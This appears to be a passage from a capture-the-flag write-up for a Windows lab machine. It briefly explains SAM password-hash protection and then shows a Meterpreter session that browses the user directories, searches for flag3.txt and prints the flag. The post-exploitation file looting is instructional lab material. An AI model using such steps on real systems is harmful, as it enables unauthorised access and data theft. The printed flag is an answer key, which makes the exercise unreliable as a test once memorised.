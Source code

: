 For security reasons, the SAM database is protected from direct access by regular users and processes. Only privileged system processes and administrators have access to the SAM database.

To retrieve password hashes from the SAM database for password-cracking purposes, an attacker would typically need administrative privileges or exploit vulnerabilities to gain unauthorized access. Therefore, it's crucial to protect the SAM database and the overall system from unauthorized access to prevent password theft and other security breaches.

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

```
meterpreter > cd C:\\
meterpreter > cd Users\\
meterpreter > ls
Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2009-07-14 01:08:56 -0400  All Users
040555/r-xr-xr-x  8192  dir   2009-07-14 03:07:31 -0400  Default
040777/rwxrwxrwx  0     dir   2009-07-14 01:08:56 -0400  Default User
040777/rwxrwxrwx  8192  dir   2018-12-12 22:13:45 -0500  Jon
040555/r-xr-xr-x  4096  dir   2011-04-12 04:28:15 -0400  Public
100666/rw-rw-rw-  174   fil   2009-07-14 00:54:24 -0400  desktop.ini

meterpreter > cd Jon
meterpreter > search -f flag3.txt
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
c:\Users\Jon\Documents\flag3.txt  37            2019-03-17 15:26:36 -0400

meterpreter > pwd
C:\Users\Jon
meterpreter > cd Documents\\
meterpreter > pwd
C:\Users\Jon\Documents
meterpreter > ls
Listing: C:\Users\Jon\Documents
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2018-12-12 22:13:31 -0500  My Music
040777/rwxrwxrwx  0     dir   2018-12-12 22:13:31 -0500  My Pictures
040777/rwxrwxrwx  0     dir   2018-12-12 22:13:31 -0500  My Videos
100666/rw-rw-rw-  402   fil   2018-12-12 22:13:48 -0500  desktop.ini
100666/rw-rw-rw-  37    fil   2019-03-17 15:26:36 -0400  flag3.txt

meterpreter > cat flag3.txt 
flag{admin_documents_can_be_valuable}
```